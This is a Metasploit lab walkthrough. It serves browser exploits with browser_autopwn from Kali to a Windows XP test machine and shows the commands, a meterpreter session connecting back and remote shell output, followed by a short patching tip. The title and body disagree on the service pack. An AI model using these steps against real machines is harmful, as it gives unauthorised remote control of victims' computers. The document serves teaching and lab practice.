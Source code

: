 Metasploit Browser Autopwn – Windows XP SP2
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div class="code">
<font color="silver">root@kali:~$</font> <b>msfconsole</b><br>
<font color="silver">msf ></font> <b>use auxiliary/server/browser_autopwn</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set LHOST 192.168.1.12</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set SRVPORT 80</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set URIPATH /</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>run</b><br>
<br>
<font color="silver">[*] Starting exploit modules on host 192.168.1.12...</font><br>
<font color="silver">[*] Server started.</font>
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div class="code">
<font color="silver">[*] Meterpreter session 1 opened (192.168.1.12:7777 -> </font><br>
<font color="silver">192.168.1.13:1045) at 2015-07-25 05:08:06 -0400</font><br>
<font color="silver">...</font><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font><b> sessions -i 1</b><br>
<font color="silver">[*] Starting interaction with 1...meterpreter ></font><b> shell</b><br>
<font color="silver">Microsoft Windows XP [Version 5.1.2600]</font><br>
<font color="silver">(C) Copyright 1985-2001 Microsoft Corp.C:\Documents and Settings\IEUser\Desktop></font><b>echo %USERNAME%</b><br>
<font color="silver">Victim</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>ipconfig</b><br>
<font color="silver">Windows IP Configuration</font><br>
<br>
<font color="silver">Ethernet adapter Local Area Connection:</font><br>
<br>
<font color="silver">Connection-specific DNS Suffix . : Home</font><br>
<font color="silver">IP Address. . . . . . . . . . . . : 192.168.1.13</font><br>
<font color="silver">Subnet Mask . . . . . . . . . . . : 255.255.255.0</font><br>
<font color="silver">Default Gateway . . . . . . . . . : 192.168.1.1</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
